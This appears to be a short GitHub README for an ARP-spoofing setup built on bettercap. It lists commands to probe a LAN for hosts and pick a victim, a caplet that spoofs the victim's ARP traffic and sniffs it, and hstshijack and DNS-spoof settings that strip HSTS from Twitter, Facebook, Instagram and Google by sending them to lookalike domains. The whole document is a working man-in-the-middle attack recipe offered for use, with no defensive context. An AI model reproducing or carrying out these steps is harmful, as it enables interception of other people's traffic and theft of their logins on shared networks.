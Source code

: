 # ARPSppofer-w-bettercap

## Prerequisutes
1. Make sure you have namp/netdiscover installed (could also use nmap for host scanning).
2. Bettercap should be installed as well.

## Usage
1. Find some hosts to spoof within your LAN.
   1. `bettercap -iface <interface>`
  b. `net.probe on`
  c. `net.show`
  d. Pick a client and exit bettercap.
  e. __Note: Can also use netdiscover or nmap for host scanning.__
2. Create/Edit your spoof caplet (spoof.caplet)
  a. `set arp.spoof.fullplex true`  : Capture both incoming/outgoing traffic. 
  b. `set arp.spoof.targets <target ip/mac>` : Comma-separated list of IPs/MACs to spoof.
  c. `set net.sniff.local true` :  Sniff local (attackbox) traffic as well - needed for bypassing HTTPS.
3. Edit hstshijack config file to bypass specific sites configured with HSTS.
  a. `nano /usr/local/share/bettercap/caplets/hstshijack/hstshijack.cap `
  b. Targets and replacements could look like this… (customize to your liking)
    `
    set hstshijack.targets         twitter.com,*.twitter.com,facebook.com,*.facebook.com,instagram.com,*.instagram.com,google.com,*.google.com, gstatic.com, *.gstatic.com
    set hstshijack.replacements    twiter.com,*.twiter.com,facebook.corn,*.facebook.corn,instagam.com,*.instagam.com,google.corn,*.google.corn,gstatic.corn,*.gstatic.corn
    `
  c. dns.spoof.domains could look like this... (customize to your liking)
    `
    dns.spoof.domains
    set dns.spoof.domains  twiter.com,*.twiter.com,facebook.corn,*.facebook.corn,instagam.com,*.instagam.com,google.corn,*.google.corn,gstatic.corn,*.gstatic.corn
    `
4. Start bettercap with customized caplet.
  a. `bettercap -iface <interface> -caplet <capletfile>`
  b. Example: `bettercap -iface eth0 -caplet spoof.caplet`
5. Enable/Verify hstshijack caplet is enabled.
  a. `hstshijack/hstshijack`
  b. `caplets.show`







